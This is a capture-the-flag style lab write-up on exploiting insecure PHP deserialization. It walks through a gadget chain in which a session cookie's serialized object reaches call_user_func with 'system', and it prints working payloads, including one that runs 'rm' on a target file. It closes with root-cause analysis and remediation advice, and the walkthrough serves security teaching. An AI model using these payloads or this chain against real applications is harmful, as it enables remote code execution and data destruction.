

# Insecure Deserialization 2

---

### **Developing a custom gadget chain for PHP deserialization - Expert**

---

#### Description:

#### This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the `morale.txt` file from Carlos's home directory.

---

#### PART I: Lab Enumeration

- In PHP, I don’t need to deal with a binary format because serialized objects can be represented and manipulated directly as plain text. (Unlike Java, where serialized data is in a binary format.)
- So I access the lab right away. Just like the previous lab, I have several products and a `My account` button.
    
    
    
- Since checking a product’s details doesn’t show anything worth testing, I attempt to log in with the credentials `wiener:peter`.
    
    
    
- After decoding the cookie in my proxy, I can see that a `User` object is being used with 2 properties: `username` and `access_token` . But I don’t have enough information yet, so I need to do some recon.
    
    
    
- When viewing the page source, I see a comment pointing to `/cgi-bin/libs/CustomTemplate.php` .
    
    
    
- Then I try to access it, but it doesn’t show anything because the PHP code is executed instead of being displayed.
    
    
    
- So, I try appending a `~` after the filename to retrieve the raw code, and it works.
    
    
    

---

#### PART II: Source Code Analysis & POP-chain Identification

- This is the full PHP code from the file above, which contains 4 classes.
    
    ```php
    <?php
    
    class CustomTemplate {
        private $default_desc_type;
        private $desc;
        public $product;
    
        public function __construct($desc_type='HTML_DESC') {
            $this->desc = new Description();
            $this->default_desc_type = $desc_type;
            // Carlos thought this is cool, having a function called in two places... What a genius
            $this->build_product();
        }
    
        public function __sleep() {
            return ["default_desc_type", "desc"];
        }
    
        public function __wakeup() {
            $this->build_product();
        }
    
        private function build_product() {
            $this->product = new Product($this->default_desc_type, $this->desc);
        }
    }
    
    class Product {
        public $desc;
    
        public function __construct($default_desc_type, $desc) {
            $this->desc = $desc->$default_desc_type;
        }
    }
    
    class Description {
        public $HTML_DESC;
        public $TEXT_DESC;
    
        public function __construct() {
            // @Carlos, what were you thinking with these descriptions? Please refactor!
            $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
            $this->TEXT_DESC = 'This product is cool in text';
        }
    }
    
    class DefaultMap {
        private $callback;
    
        public function __construct($callback) {
            $this->callback = $callback;
        }
    
        public function __get($name) {
            return call_user_func($this->callback, $name);
        }
    }
    
    ?>
    ```
    
- To make the data flow easier to understand, I'll explain the classes in the order that makes the gadget chain easiest to follow. Start with `Description` class:
    - This class has 2 properties.
        
        ```php
        public $HTML_DESC;
        public $TEXT_DESC;
        ```
        
    - And a constructor.
        
        ```php
        public function __construct() {
                $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
                $this->TEXT_DESC = 'This product is cool in text';
            }
        ```
        
        
        
- Class `CustomTemplate`:
    - Has 3 properties.
        
        ```php
        private $default_desc_type;
        private $desc;
        public $product;
        ```
        
    - This is the constructor
        
        ```php
        public function __construct($desc_type='HTML_DESC') {
                $this->desc = new Description();
                $this->default_desc_type = $desc_type;
                $this->build_product();
            }
        ```
        
        
        
    - This is a magic method, which is automatically called when serializing an object.
        
        ```php
        public function __sleep() {
        				// Only these 2 properties will be serialized
                return ["default_desc_type", "desc"];
            }
        ```
        
    - This is also a magic method, which is automatically called when deserializing an object.
        
        ```php
        public function __wakeup() {
        				//Call build_product()
                $this->build_product();
            }
        ```
        
    - And here we go,  the `build_product()` function, which is called twice in this class.
        
        ```php
        private function build_product() {
                $this->product = new Product($this->default_desc_type, $this->desc);
            }
        ```
        
        
        
- Class `Product`:
    - Has 1 property.
        
        ```php
        public $desc;
        ```
        
    - This is the constructor.
        
        ```php
        public function __construct($default_desc_type, $desc) {
                $this->desc = $desc->$default_desc_type;
            }
        ```
        
        
        
- Finally, the class that can potentially lead to RCE.
- Class `DefaultMap` :
    - Has 1 property.
        
        ```php
        private $callback;
        ```
        
    - This is the constructor.
        
        ```php
        public function __construct($callback) {
                $this->callback = $callback;
            }
        ```
        
        
        
    - And this is a magic method, which is automatically called when an inaccessible or non-existent property is accessed.
        
        ```php
        public function __get($name) {
                return call_user_func($this->callback, $name);
            }
        ```
        
        
        
- So, based on all the information I’ve gathered, I can draw the complete chain below:
    
    
    
- The next step is to construct the serialized data, as follow:
    
    ```
    O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:2:"id";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}}
    ```
    
- Then I Base64-encode it → URL-encode it → replace it in the cookie. It causes an Internal Server Error, but I can’t read the command output because `system()` outputs stdout while the response doesn’t reflect it back, so this is kind of blind RCE.
    
    
    
- So let’s change the payload to delete Carlos’s file.
    
    ```
    O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}}
    ```
    
- Send it, and the lab is solved.
    
    
    
    
    

---

#### PART III: Root Cause & Remediation

- **Root Cause**
    - Insecure deserialization on fully client-controlled input — the session cookie contains a raw PHP-serialized object, and the server calls `unserialize()` directly on it without signing or encryption, so an attacker can substitute any custom-built object, turning what should be a stateless session mechanism into a code execution entry point.
    - Unchecked auto-invoked magic methods (`__wakeup`, `__get`) — PHP automatically calls `__wakeup()` the moment an object is unserialized and `__get()` any time an inaccessible/non-existent property is accessed, so by simply choosing which objects get assigned to which properties, an attacker can chain together otherwise-harmless application logic into full RCE without ever calling a dangerous function explicitly — this is the defining trait of a POP (Property-Oriented Programming) chain.
    - Unvalidated dynamic property access (`$desc->$default_desc_type` in `Product::__construct`) → the developer assumed `$desc` would always be a `Description` object and `$default_desc_type` would always be one of two fixed values (`HTML_DESC`/`TEXT_DESC`), but since both values originate from deserialized data, an attacker can swap `$desc` for a `DefaultMap` object and set `$default_desc_type` to any arbitrary string, turning a harmless property read into an arbitrary function call.
    - The `DefaultMap` class allows an arbitrary callback (`call_user_func($this->callback, $name)`) → this is the key gadget in the chain, since it accepts a PHP function name as an attacker-supplied string and invokes it directly with no allowlist of permitted functions, so setting `callback = "system"` alone is enough to achieve full RCE.
    - Backend source code disclosure via `/cgi-bin/libs/CustomTemplate.php~` (an editor-generated backup file ending in `~`) → this misconfiguration isn't the root vulnerability itself, but it significantly lowers the exploitation bar, since the attacker can read the exact class structure and build a precise payload instead of having to blind-guess it.

**Combined effect:** authenticated client-controlled deserialization + auto-triggered magic methods + unchecked dynamic property access + an arbitrary callback in `DefaultMap` combine into one complete chain. Each piece is valid and relatively harmless on its own, but chained together, they give the attacker RCE in a single request.

**Remediation:**

- Never call `unserialize()` on client-supplied data; use a safer session format such as JSON, or if PHP serialization is unavoidable, sign the data (HMAC) and verify the signature before unserializing.
- On PHP ≥ 7.0, use the `allowed_classes` option with `unserialize()` (e.g. `unserialize($data, ['allowed_classes' => false])`) when object deserialization is not required.
- Strictly validate `$default_desc_type` in `Product::__construct` — restrict it to a fixed whitelist (`HTML_DESC`, `TEXT_DESC`) instead of trusting a property sourced from another object.
- Remove or tightly restrict classes capable of invoking dynamic callbacks (`call_user_func`, `call_user_func_array`) when the callback originates from deserialized data — if a `DefaultMap`style pattern is genuinely needed, hardcode the list of permitted functions instead of accepting an arbitrary string.
- Clean up editor/backup files (`.bak`, `~`, `.swp`, etc.) from production deployment directories, and block the web server from serving these extensions at the configuration level.
